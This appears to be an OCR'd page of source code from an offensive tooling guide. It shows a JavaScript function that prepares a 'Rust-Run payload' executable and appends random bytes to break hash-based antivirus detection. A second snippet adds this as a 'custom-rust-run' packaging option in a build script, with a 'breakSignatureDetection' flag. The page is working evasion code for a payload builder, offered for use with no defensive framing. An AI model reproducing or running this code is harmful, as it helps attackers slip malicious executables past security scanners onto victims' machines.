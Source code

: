 ```javascript
  const {
    sourcePath = path.join(__dirname, '../../payloads/rust-run.exe'),
    outputPath,
    addRandomization = true,
    randomDataSize = 256
  } = options;
  
  console.log(`[+] Preparing Rust-Run payload...`);
  console.log(`[+] Source: ${sourcePath}`);
  console.log(`[+] Destination: ${outputPath}`);
  
  try {
    // Read the source executable
    const exeData = fs.readFileSync(sourcePath);
    
    if (addRandomization) {
      // Add randomization to avoid hash-based detection
      // This appends random data to the end of the file without affecting execution
      const randomBuffer = crypto.randomBytes(randomDataSize);
      const combinedBuffer = Buffer.concat([exeData, randomBuffer]);
      fs.writeFileSync(outputPath, combinedBuffer);
      console.log(`[+] Added ${randomDataSize} bytes of randomization to break hash-based detection`);
    } else {
      // Just copy the file as-is
      fs.copyFileSync(sourcePath, outputPath);
    }
    
    console.log(`[+] Rust-Run payload prepared successfully`);
    return outputPath;
  } catch (err) {
    console.error(`[!] Error preparing Rust-Run payload:`, err);
    throw err;
  }
}

module.exports = {
  prepareRustRunPayload
};
```

2. Modify the `build_exe.js` file to use the custom payload:

```javascript
// Modify build_exe.js to add Rust-Run as a package option
const customPayload = require('./custom_payload');

// Add a new package tool option
const PACKAGE_TOOLS = ['pkg', 'nexe', 'custom-rust-run'];

// In the buildExecutable function:
switch (config.packageTool) {
  case 'custom-rust-run':
    console.log('[+] Using Rust-Run as custom payload');
    const outputPath = path.join(config.outputDir, config.exeName);
    customPayload.prepareRustRunPayload({
      outputPath,
      addRandomization: config.breakSignatureDetection,
      randomDataSize: 512 // Customize as needed
    });
    break;
  
  // Keep other cases as-is
}
```